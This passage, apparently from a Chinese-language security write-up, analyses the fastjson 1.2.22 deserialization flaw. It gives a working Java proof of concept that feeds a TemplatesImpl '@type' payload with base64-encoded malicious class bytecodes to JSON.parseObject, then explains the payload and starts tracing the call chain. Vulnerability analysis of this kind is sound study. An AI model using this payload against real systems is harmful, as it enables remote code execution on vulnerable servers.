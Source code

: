     String result = Base64.encodeBase64String(bos.toByteArray());

    return result;
}

public static void bad_method() {
    ParserConfig config = new ParserConfig();
    final String fileSeparator = System.getProperty("file.separator");
    String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
    String evil_code = readClass(evil_path);

    final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

    String text1 = "{\"@type\":\"" + NASTY_CLASS +
            "\",\"_bytecodes\":[\""+evil_code+"\"]," +
            "'_name':'a.b'," +
            "'_tfactory':{ }," +
            "\"_outputProperties\":{ }}\n";
    System.out.println(text1);
    Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
}

public static void main(String args[]) {
    bad_method();
} 
``` `}` 
```

核心部分：

```
String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n"; `Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);` 
```

_bytecodes是经过base64编码的evilClass1的字节码文件，NASTY_CLASS是TemplatesImpl类。总结一下这个payload，利用JSON.parseObject反序列化TemplatesImpl类，其中_bytecodes属性是经过base64编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化TemplatesImpl的调用链，首先经过java的反射机制，到达TemplatesImpl类，调用其getOutputProperties()方法：

![image](img/801193b5bd2ec3f6d9a7119b2b7b8463.png)
